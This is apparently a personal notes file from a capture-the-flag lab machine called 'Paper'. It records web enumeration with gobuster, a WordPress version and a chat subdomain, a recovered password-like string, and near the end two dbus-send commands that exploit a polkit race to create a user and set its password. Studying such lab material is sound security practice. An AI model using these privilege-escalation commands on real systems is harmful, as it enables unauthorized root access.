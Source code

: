 # <span style="color:#CC6699">Machine #19 (Active) Paper</span>  


## <span style="color:#CC6699">Notes During Working on the Machine 🧐🤓   

* Found this in the headers of the response of the http and https. Seems interesting  
  ```
  Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
  ```  
* In the body there's this tag that had the following  
  ```html
   <meta name="generator" content="HTML Tidy for HTML5 for Linux version 5.7.28">
  ```  
* What is HTML Tidy and is it relevant? Doesn't seem like it's much  

* Based on Wappalyzer's results the web server is Apache.

* Research fastcgi.
* `gobuster dir -u 10.10.11.143 -x php,cgi,txt,html,md -w ./apache.fuzz.txt -b '404,403,400' -o apache.output.fuzz.txt`
* I think I'm gonna go back to it later.
* The cgi seems like the right path. I think.
* Quoted from Apache's documentation 
  <blockquote>
  It is favored by the PHP developers
  </blockquote>  
  This means that it's a high probability that the backend is written in php.

* I tried an apache exploit for cgi-bin it returned 404 but what was interesting is the `X-Backend-Server` header in the response   
  ```
  HTTP/1.1 404 Not Found
  Date: Fri, 11 Mar 2022 10:41:51 GMT
  Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
  X-Backend-Server: office.paper //I'm thinking this could be a virtual host of some kind
  Content-Length: 196
  Content-Type: text/html; charset=iso-8859-1
  ```  

* Turns out it is some kind of a virtual host and when I opened `http://office.paper` I got another response but the `https` didn't give me anything.
* The website seems to be using REST APIs. What made me think this is the structure of the url `http://office.paper/index.php/2021/06/19/feeling-alone/`  

* So nick is revealing more than he should  
  <img src="./nick.png">  

* So it seems like the website is using *Wordpress* and it's written in *php*.
* `prisonmike` seems like he is the only user that can login. It's not working as the username for the wordpress login
* Seems like the user `nick` exists  
  <img src="./nick_login.png">

* Found this path in source code `http://office.paper/wp-content/uploads/2021/06/Dunder_Mifflin_Inc-150x150.png` for an image it might be useful.  
* Found Wordpress version  
  ```html
  <!-- generator="WordPress/5.2.3" -->
  ```  
* Found this subdomain `http://chat.office.paper/home` and a draft that I found by using an exploit I found for the specific wordpress version we have.  
* Found a bot that I can ask to list files on the system. I can cat the files only.
* `gobuster dns -d office.paper -w SecLists/Discovery/DNS/subdomains-top1million-5000.txt`  

* Queenofblad3s!23

* dwightschrute


dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:boris string:"Boris Ivanovich Grishenko" int32:1 & sleep 0.008s ; kill $!


dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1005 org.freedesktop.Accounts.User.SetPassword string:'$5$9S6xxwc8VPUCYQuU$KrtrLFCbnH8q6uZzOtB7KW7efCn4BMlTJGGAaqSTFi0' string:GoldenEye & sleep 0.008s ; kill $!

* Polkit exploitation that the exact operating system that we have is vulnerable to. It has the exact specifications that allow this exploit to succeed
<br/><br/>



## <span style="color:#CC6699">How Did I Solve the Machine 😎🥳 


<br/><br/>



## <span style="color:#CC6699">Where I Got Stuck?😡😧  


<br/><br/>



## <span style="color:#CC6699">What Did I learn from this Machine?👀  


<br/><br/>



## <span style="color:#CC6699">Writeups ✍🏽📓   


<br/><br/>




<!-- @nested-tags:EXAMPLE/OF/NESTED/TAGS-->